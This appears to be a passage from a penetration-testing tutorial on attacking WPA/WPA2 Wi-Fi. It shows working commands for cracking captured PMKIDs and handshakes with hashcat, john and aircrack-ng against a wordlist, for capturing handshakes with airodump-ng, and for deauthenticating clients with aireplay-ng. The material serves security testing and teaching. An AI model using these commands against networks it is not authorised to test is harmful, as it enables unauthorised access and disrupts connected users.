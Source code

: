 The **PMKIDs captured** will be shown in the **console** and also **saved** inside \_ **/tmp/attack.pcap**\_\
Now, convert the capture to **hashcat/john** format and crack it:

```bash
hcxtools/hcxpcaptool -z hashes.txt /tmp/attack.pcapng
hashcat -m 16800 --force hashes.txt /usr/share/wordlists/rockyou.txt
john hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

Please note the the format of a correct hash contains **4 parts**, like: _4017733ca8db33a1479196c2415173beb808d7b83cfaa4a6a9a5aae7\*566f6461666f6e65436f6e6e6563743034383131343838_\
\_\_If yours **only** contains **3 parts**, then, it is **invalid** (the PMKID capture wasn't valid).

Note that `hcxdumptool` **also capture handshakes** (something like this will appear: **`MP:M1M2 RC:63258 EAPOLTIME:17091`**). You could **transform** the **handshakes** to **hashcat**/**john** format using `cap2hccapx`

```bash
tcpdump -r /tmp/attack.pcapng -w /tmp/att.pcap
cap2hccapx pmkid.pcapng pmkid.hccapx ["Filter_ESSID"]
hccap2john pmkid.hccapx > handshake.john
john handshake.john --wordlist=/usr/share/wordlists/rockyou.txt
aircrack-ng /tmp/att.pcap -w /usr/share/wordlists/rockyou.txt #Sometimes
```

_I have noticed that some handshakes captured with this tool couldn't be cracked even knowing the correct password. I would recommend to capture handshakes also via traditional way if possible, or capture several of them using this tool._

### Handshake capture

One way to attack **WPA/WPA2** networks is to capture a **handshake** and try to **crack** the used password **offline**. To do so you need to find the **BSSID** and **channel** of the **victim** network, and a **client** that is connected to the network.\
Once you have that information you have to start **listening** to all the commutation of that **BSSID** in that **channel**, because hopefully the handshake will be send there:

```bash
airodump-ng wlan0 -c 6 --bssid 64:20:9F:15:4F:D7 -w /tmp/psk --output-format pcap
```

Now you need to **deauthenticate** the **client** for a few seconds so it will automatically authenticate again to the AP (please read the part of DoS to find several ways to deauthenticate a client):

```bash
aireplay-ng -0 0 -a 64:20:9F:15:4F:D7 wlan0 #Send generic deauth packets, not always work
```

_Note that as the client was deauthenticated it could try to connect to a different AP or, in other cases, to a different network._

Once in the `airodump-ng` appears some handshake information this means that the handshake was captured and you can stop listening:

![](<../../.gitbook/assets/image (172) (1) (1).png>)
